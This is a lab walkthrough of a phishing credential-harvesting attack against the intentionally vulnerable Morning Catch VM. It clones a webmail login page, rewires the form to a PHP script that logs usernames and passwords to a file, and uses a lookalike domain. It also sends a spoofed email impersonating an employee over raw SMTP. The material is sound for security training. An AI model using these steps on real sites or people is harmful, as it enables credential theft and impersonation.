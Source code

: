 # Morning Catch Credential Harvesting Walkthrough

This walkthrough will be an example of a credential harvesting attack without using purpose built attack tools. 

## Prerequisites

### Attacker VM 

Networking: Host Only or Internal 
Open Ports: 80

Linux with the following packages installed: 
 - php 5.4 or newer 
 - wget 
 - Firefox or Chrome

### Victim

Networking: Host Only or Internal
Open Ports: 25, 80

We will be using the Morning Catch VM created by Raphael Mudge: http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

It can be downloaded from vulnhub.com at: https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/

### Setup DNS Entries 

#### On the Attacker VM 

Add the attacker and victim IPs to /etc/hosts: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

#### On the Victim VM

Add the attacker IP to /etc/hosts:

```
<Attacker IP>	mornincatch.ph
```

## Recon 

Our target is the Morning Catch company, our first reconnaissance step should be exploring their Internet presence at http://morningcatch.ph: 

![morningcatch.ph](img/morningcatch.png)

On the website we find a list of contacts on the company directory: 
![Employee Directory](img/employee-directory.png)

And a login for what appears to be webmail: 
![Employee Login](img/employee-login.png)

## Setup

We can launch a credential harvesting attack by cloning the site and convincing a user to enter their credentials on our webserver. 

### Cloning morningcatch.ph

Using wget we can clone the site: 

```bash
wget -r -l1 -k -p morningcatch.ph/mail/
sudo mv morningcatch.ph/mail /var/www/html/
sudo vim /var/www/html/mail/index.html
```

In order to capture the credentials entered into our site we need to modify the login form to call a php script that will save the form input to disk.

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

Now we just need to write the form.php script:

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

```bash
touch /var/www/html/mail/creds.txt
sudo chown www-data:www-data /var/www/ -R 
```

And verify that the site works correctly by logging in and checking creds.txt:

![Successful Login](img/successful-test.png)

## Send Messages to Target 

### Email Server - Pretending to be Boyd
Now that we have setup the site we can craft the email for the target:


```bash
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```

### Richard Checks his Mail

When Richard Bourne goes to check his email, he receives the following message: 

![Richard's Email](img/bourne-email.png)

Being the savy CEO he is, Richard clicks the link:

![Richard's Email](img/bourne-webmail.png)

## Responses 

The responses can be recorded using our cred.txt file: 

```
hans	i<3cats
rbourne	password
```
